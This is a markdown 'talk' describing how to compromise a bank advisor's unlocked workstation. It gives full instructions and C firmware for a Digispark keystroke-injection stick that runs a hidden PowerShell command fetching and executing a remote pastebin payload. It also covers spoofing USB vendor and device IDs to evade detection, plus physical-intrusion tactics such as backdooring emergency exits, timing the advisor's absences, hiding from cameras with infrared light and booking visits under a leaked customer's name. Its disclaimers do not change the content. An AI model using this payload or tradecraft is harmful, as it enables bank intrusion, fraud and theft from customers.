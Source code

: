 # Talk 1: Bank Security

## Description

This talk is about bank security, don't use it for illegal purpose ! I make this talk to help people to choose a secure bank and improve the bank security posture.

## Why

I visited my bank and met my financial advisor, when i did it i saw some cybersecurity problems, so i choose to talk about thoses problems.

## Talk

### Access to computer

1. I didn't pentest the web server, reverse the javascript in the web interface or reverse the mobile app, because it's a bank i suppose it's *secure*.
2. If i don't exploit a vulnerability on the server i should exploit a user vulnerability. I will not speak about fake bank application, phishing or social engineering to access to only one customer account.
3. The vulnerability is: my financial advisor ! Yes, my financial advisor does not comply with security policies and it's real problem ! He don't close the office door, don't lock the Windows session and keep the session to the bank application (with this application and this account we can performs bank transfer from customers bank account).
    - He leaves his office during interviews for several tens of seconds
    - He leaves his office between interviews for few minutes

### How to take the control of a computer with few seconds

 - Simply by plugging in a [rubber ducky](https://lab401.com/products/rubber-ducky) USB stick

> What is the rubber ducky USB stick ?
>> The Rubber Ducky USB stick is a type of USB device that is designed to emulate a keyboard and execute pre-programmed scripts when plugged into a computer. It looks like a regular USB flash drive, but its functionality is quite different.
>> When connected to a computer, the Rubber Ducky can send keystrokes at a very high speed, allowing it to perform tasks such as opening a command prompt, executing commands, or downloading malware without the user's knowledge. This makes it a popular tool for penetration testers and security researchers to demonstrate vulnerabilities in systems, as well as for malicious actors to exploit those vulnerabilities.
>> The device is often used in security training and awareness programs to illustrate the importance of physical security and the potential risks associated with USB devices.

#### How to build you own sneaky rubber ducky

 - Buy a [Digispark](https://www.amazon.fr/AZDelivery-Digispark-Kickstarter-d%C3%A9veloppement-compatible/dp/B01N7SGC1I/ref=sr_1_1_sspa?adgrpid=1364494866886671&dib=eyJ2IjoiMSJ9.a_zlnx8CDHiTiw5zWe84asWUApy6p6W48dBlv8WL41sYg6_Mzg4hhjx0PU_Y4SGOxyjB2a41tZSxNGzGm1G2SWxInTYzjo85b4P-cCSLxJu-fAd8X-VK8yI_0qyqdrEk4jvI_RNy9RW0I9tlibKRJoelIngWissoKjBtuo_tzbaPmcO2LY3Cnasl_s6NxZzXxAu6SlMygwqdZ6XG8YXrmf9k0ZxrKtqZp9U5LV6PEsnRX4ye6AA0TmveIwHy0_WjOKMv3fI1Lio-s4pW-psrw3LBO8VaHvEoyv9tjtgkQKs.00oPPHcg-eaUa4nHLYkowHAjejjkr0X5EoGj1OM31FQ&dib_tag=se&hvadid=85281187819663&hvbmt=be&hvdev=c&hvlocphy=126810&hvnetw=s&hvqmt=e&hvtargid=kwd-85281456177274%3Aloc-66&hydadcr=28259_1882664&keywords=digispark&msclkid=3a600951561e187ca1de6e227ee642d5&nsdOptOutParam=true&qid=1735600856&sr=8-1-spons&sp_csd=d2lkZ2V0TmFtZT1zcF9hdGY&psc=1).
 - Install the [Arduino IDE](https://www.arduino.cc/en/software).
 - Open the Arduino IDE, click on *File* -> *Preferences*, add `https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json` in the *Additional boards manager URLs:*, click *ok*.
 - Click on *Tools* -> *Board:* and click on *Boards manager...*, in the search bar write `Digistump` and click on the `Digistump AVR Boards by Digistump`.
 - Click on *Tools* -> *Programmer:* and select `Micronucleos` as bootloader (it's a very small and fast bootloader for Arduino compatible boards).

Now, you can put your code:

```c
#include <DigiKeyboard.h>

// https://github.com/digistump/DigistumpArduino/blob/111396ffe5163c3613b9315cbea1a3eabc9ba6dc/digistump-avr/libraries/DigisparkKeyboard/DigiKeyboard.h#L66

void setup() {
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(100);
  DigiKeyboard.sendKeyStroke(21, MOD_GUI_LEFT);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(52, MOD_SHIFT_LEFT);
  DigiKeyboard.sendKeyStroke(52, MOD_SHIFT_LEFT);
  DigiKeyboard.sendKeyStroke(80);
  DigiKeyboard.sendKeyStroke(80);

  DigiKeyboard.print("powershell -windowstyle hidden -Command ");
  DigiKeyboard.sendKeyStroke(79);
  DigiKeyboard.print("iex(iwr -Uri 'https://pastebin.com/raw/bcjhnYKG').Content");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
}

void loop() {}
```

 - Click on the *Upload* button (a *right arrow* button)
 - The Arduino IDE will compile the code
 - When the code is compiled, it will wait 60 seconds a new plugged Digispark, so you may plug your Digispark on a USB port
 - The Arduino IDE will flash the firmware
 - The Digispark will play the code

Okay, so we have the Rubber Ducky, but we have some limitations: 512 bytes of RAM and we have a good payload for *qwerty* keyboard but not for others keyboards. For qwerty keyboard and azerty keyboard i have developed a little [python script](https://github.com/mauricelambert/DigisparkRubberDuckyExecuteCommand) to generate your own code to execute a command on the victim computer without the RAM limitation.

 - When a new keyboard is plugged, the vendor and the device ID are stored on the Windows computer, if you want to be undetectable you should modify the `%LOCALAPPDATA%\Arduino15\packages\digistump\hardware\avr\1.6.7\libraries\DigisparkKeyboard\usbconfig.h` file, line 232 to change the vendor ID: `USB_CFG_VENDOR_ID` ([web page](https://devicehunt.com/all-usb-vendors) to identify a vendor ID) and line 241 change the device ID: `USB_CFG_DEVICE_ID` ([web page](https://www.usbvendor.com/) to identify a device ID).

You can list your Vendor ID and your Product ID with the following powershell code:

```powershell
Get-WmiObject Win32_PnPEntity | Where-Object {$_.PNPClass -match "Mouse|Keyboard"} | ForEach-Object {
    $hwid = $_.HardwareID | Where-Object {$_ -match "(HID|USB)\\VID_.*"}
    if ($hwid) {
        $v_id = ($hwid -split '&')[0] -replace '(HID|USB)\\VID_',''
        $p_id = ($hwid -split '&')[1] -replace 'PID_',''
        [PSCustomObject]@{
            Name = $_.Name
            VendorID = $v_id
            ProductID = $p_id
        }
    }
}

Get-ChildItem -Path HKLM:\System\CurrentControlSet\Enum\USB\ | ForEach-Object {
    $v_id = ((($_ -split '&')[0] -replace '(HID|USB)\\VID_','') -split '\\')[-1]
    $p_id = ($_ -split '&')[1] -replace 'PID_',''
    [PSCustomObject]@{
        VendorID = $v_id
        ProductID = $p_id
    }
}
```

#### What about detection and protection

In this case the better tools to mitigate the vulnerability is the EDR:
 - EDR should detect the new device (even if the device ID is already now because the driver is different), should detect the `Win+R`, should detect writing at 40 characters per second, should detect the `powershell` process creation, should detect the *hidden windows*, should detect the code downloaded from internet and executed **BUT** i try one of the best-selling EDR and there is no detection and no protection, only a telemetry for the process and nothing else... This EDR must have really, really good sales teams... And my configuration is the most restrictive mode (`protect/protect`, this mode block all suspicious behaviour).
 - SIEM can detect a new device (and probably not if the device ID is already know), so you don't have detection and don't have response (with SOAR or other tools to block the attack).

### Access to the office

The bank have 3 cameras on the same corridor, all people **should** use this corridor, but other ways to enter exists...

 - multiples windows (not very easy to use for a sneaky intrusion)
 - 2 emergency exits
     1. *Backdoor* the door during a legit visit
     2. Open the door from the outside with *some specific techniques*

### When

Take few days to know the financial advisor habits, you should identify good time for the intrusion.

### Others ways

 - Secretary have leaked the name of other customer, with this name you can use it to take a new appointment, use infrared light to hide your head on camera and exploit the vulnerability when financial advisor leave the office for few seconds during the interview.
 - When the financial advisor's screens are visible from the outside, it is possible to retrieve sensitives informations to performs the same attack.

## Conclusion

We have a vulnerability: the unlocked and unattended financial advisor computer with the authenticated financial advisor session. We have an access from the outdoor and we know the best time to do it... So, it's possible to pwn the bank...

Since few day, i have changed my bank, i think people should choice a secure bank and i hope this talk will help you to know which bank is secure.

> Don't use this talk for illegal purpose ! It's probably easy, in your dreams, to perform the attack described in this talk but in the real life is not and if you try you will go to jail. Keep in mind: if you have skills to perform this attack you will have a very good salary in a completely legal way so you won't even think of this idea.
